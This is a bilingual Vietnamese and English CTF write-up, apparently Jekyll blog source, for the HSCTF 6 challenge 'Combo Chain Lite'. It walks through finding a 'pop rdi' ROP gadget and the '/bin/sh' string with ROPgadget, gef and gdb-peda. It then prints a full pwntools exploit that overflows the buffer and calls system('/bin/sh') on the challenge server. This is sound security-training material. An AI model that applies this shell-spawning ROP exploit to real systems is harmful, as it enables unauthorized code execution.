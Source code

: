 ```yaml
---
layout: post
published: true
title: 'HSCTF 6: Combo Chain Lite'
categories:
  - CTF
  - HSCTF
---
```

## \[ENGLISH BELOW]


Xin chào.
Hôm nay mình muốn viết lại challenge này.

![Capture-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/Capture-combo-chain-lite.PNG)

[combo-chain-lite.c](https://ctf.hsctf.com/files/6fc8b6ed70bd7670c1d81f8939596712/combo-chain-lite.c?token=eyJ0ZWFtX2lkIjoxMjcyLCJ1c2VyX2lkIjoyMTgzLCJmaWxlX2lkIjo2Mn0.XQ-uYA.8F1dwaZpumZVCSVEYOXcOF93DdM) 
  [combo-chain-lite](https://ctf.hsctf.com/files/a12f5a0e0aea3721aa21189b949427e7/combo-chain-lite?token=eyJ0ZWFtX2lkIjoxMjcyLCJ1c2VyX2lkIjoyMTgzLCJmaWxlX2lkIjo2M30.XQ-uYA.ptvq-hFeiK8u7baL_Auf-k6kn_Y)

Chall sử dụng [ROP (Return Oriented Programming)](https://ctf101.org/binary-exploitation/return-oriented-programming/). Nên trước tiên ta tìm địa chỉ chứa ROP gadgets phù hợp.
Trong quy ước gọi ([calling conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)), các đối số được truyền vào các registers trong các chương trình 64-bit theo thứ tự như link tham khảo. Trong trường hợp của gọi `system`, thì chúng ta cần phải điều khiển thanh ghi RDI. Mình sẽ tìm các ROP gadgets thông qua tool như [rp++](https://github.com/0vercl0k/rp) hoặc [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) liên quan tới `pop rdi`. 

{: .box-note}
ROPgadget \--binary ./combo-chain-lite \| grep "pop rdi"

Khi đã có được địa chỉ của ROP, ta sẽ cần tìm địa chỉ của hàm `system` khi được nạp vào chương trình khi được thực thi. Tuy nhiên ở đây chương trình đã cung cấp sẵn cho ta.

![exec-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/exec-combo-chain-lite.PNG)

Tiếp theo ta cần tìm cách đưa chuỗi "/bin/sh" vào như đối số của `system`.
Nếu để ý thì trong chương trình đã có sẵn chuỗi đó, việc cần làm là tìm địa chỉ của nó trong chương trình mà thôi.

Có thể dùng gef hoặc gdb-peda.

-**Đối với gef:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
{% endhighlight %}

-**Đối với gdb-peda:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gdb-peda$ b*0x0000000000401209  #đặt breakpoint ở đoạn instruction sau khi in chuỗi
gdb-peda$ r
...
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7f67e80 --> 0x68732f6e69622f ('/bin/sh')
{% endhighlight %}

Đoạn code exploit của mình:

{% highlight python linenos %}
#Completed

from pwn import *

rm = remote("pwn.hsctf.com", 3131)

padding = "AAA%AAsAABAA$AAn" #16 ki tu (random pattern)
rop_addr = p64(0x0000000000401273)
bin_addr = p64(0x402051) #hoac 0x403051 /bin/sh string
sys_addr = p64(int(rm.recv().rsplit(': ')[1], 16)) 

payload = padding + rop_addr  + bin_addr + sys_addr
print payload
rm.recv()
rm.sendline(payload)
rm.interactive()
rm.close()
{% endhighlight %}

![combo-chain-lite-exploit.png]({{site.baseurl}}/img/ctf/HSCTF/2019/combo-chain-lite-exploit.png)

Done.


## ENGLISH

Hello everyone, here is the challenge:
![Capture-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/Capture-combo-chain-lite.PNG)

Challenge uses [ROP (Return Oriented Programming)](https://ctf101.org/binary-exploitation/return-oriented-programming/). So first we need to find right ROP gadgets addresses.
In ([calling conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)), arguments are passed in registers in 64-bit programs. In the case of running `system`, this means we will need to find a way to control the RDI register. We will find ROP gadgets through tools like [rp++](https://github.com/0vercl0k/rp) or [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) that have `pop rdi`. 

{: .box-note}
ROPgadget \--binary ./combo-chain-lite \| grep "pop rdi"

After having ROP address, we need to find the address of `system` function that imported when executing the program. But here, the program has provided for us.

![exec-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/exec-combo-chain-lite.PNG)

Next, try to figure out how to put the string "/bin/sh" as `system`'s argument.
If you look closer, in the program already has that string, we only need to figure out the address of it.

We can use gef or gdb-peda.

-**With gef:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
{% endhighlight %}

-**With gdb-peda:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gdb-peda$ b*0x0000000000401209  #đặt breakpoint ở đoạn instruction sau khi in chuỗi
gdb-peda$ r
...
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7f67e80 --> 0x68732f6e69622f ('/bin/sh')
{% endhighlight %}

My exploit code:

{% highlight python linenos %}
#Completed

from pwn import *

rm = remote("pwn.hsctf.com", 3131)

padding = "AAA%AAsAABAA$AAn" #16 ki tu (random pattern)
rop_addr = p64(0x0000000000401273)
bin_addr = p64(0x402051) #hoac 0x403051 /bin/sh string
sys_addr = p64(int(rm.recv().rsplit(': ')[1], 16)) 

payload = padding + rop_addr  + bin_addr + sys_addr
print payload
rm.recv()
rm.sendline(payload)
rm.interactive()
rm.close()
{% endhighlight %}

![combo-chain-lite-exploit.png]({{site.baseurl}}/img/ctf/HSCTF/2019/combo-chain-lite-exploit.png)

Done.
